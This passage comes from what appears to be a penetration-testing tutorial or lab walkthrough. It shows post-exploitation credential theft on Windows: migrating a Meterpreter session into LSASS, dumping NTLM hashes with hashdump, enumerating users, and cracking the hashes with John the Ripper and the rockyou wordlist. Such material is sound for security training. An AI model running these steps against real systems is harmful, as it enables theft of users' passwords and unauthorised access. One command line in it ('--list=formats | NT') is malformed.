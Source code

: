- **Explanation**: The `migrate` command allows us to switch to the LSASS process. Migrating to this process gives us access to cached credentials stored in memory, making it easier to extract hashes.

Dump the NTLM hashes from the target system:

```bash
hashdump
```

- **Explanation**: The `hashdump` command extracts NTLM password hashes from the system. These hashes represent encrypted versions of users' passwords.

We confirm the list of users on the target system:

```bash
shell
net user
exit
```

- **Explanation**: The `net user` command lists all the user accounts on the target machine.

Now, we copy the dumped hashes into a file, `hashes.txt`, for later cracking.

---

#### 4. Cracking NTLM Hashes with John the Ripper

We use **John the Ripper**, a popular password-cracking tool, to crack the NTLM hashes.

Start by launching John:

```bash
john
```

We need to specify the format of the hashes. NTLM hashes use the format "NT":

```bash
--list=formats | NT
```

To begin cracking, specify the hash format and the file containing the dumped hashes:

```bash
john --format=NT hashes.txt
```

- **Explanation**: This command starts John the Ripper, specifying the NTLM hash format (`--format=NT`) and the file (`hashes.txt`) containing the hashes.

If using a wordlist, such as the popular `rockyou.txt` wordlist, first unzip it:

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

Now run John with the wordlist:

```bash
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
